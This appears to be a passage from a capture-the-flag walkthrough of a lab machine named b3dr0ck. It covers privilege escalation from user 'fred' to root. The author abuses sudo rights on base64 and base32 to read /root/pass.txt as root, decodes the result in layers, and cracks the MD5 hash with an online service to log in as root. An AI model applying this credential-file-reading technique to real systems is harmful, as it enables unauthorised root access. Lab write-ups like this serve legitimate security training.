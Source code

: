 ```
Welcome: 'fred' is authorized.
b3dr0ck> hint
Password hint: {REDACTED}! (user = 'fred')
```

#### PRIVESC --- fred -> root

- Fred's flag is in `/home/fred/fred.txt`.

```
User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

- I decided to use `base64 -d` to read the file.

```
Sorry, user fred is not allowed to execute '/usr/bin/base64 -d /root/pass.txt' as root on b3dr0ck.
```

- Okay, but we could read the base64-encoded `pass.txt` 

```
sudo /usr/bin/base64 /root/pass.txt
TEZ{REDACTED}WVTJSQ1dO
```

- This is in turn encoded with base32.

- After decoding the base32 string, we get another one encoded with base64.

- After decoding the second base64 string, we're getting an MD5 hash that can be cracked easily using crackstation.

```
a00a12{REDACTED}05a31d56
```

- This is the `root`'s password.

```
su root
Password: 
root@b3dr0ck:/usr/share/abc/certs# 
```

- The last flag is in `/root/root.txt`.

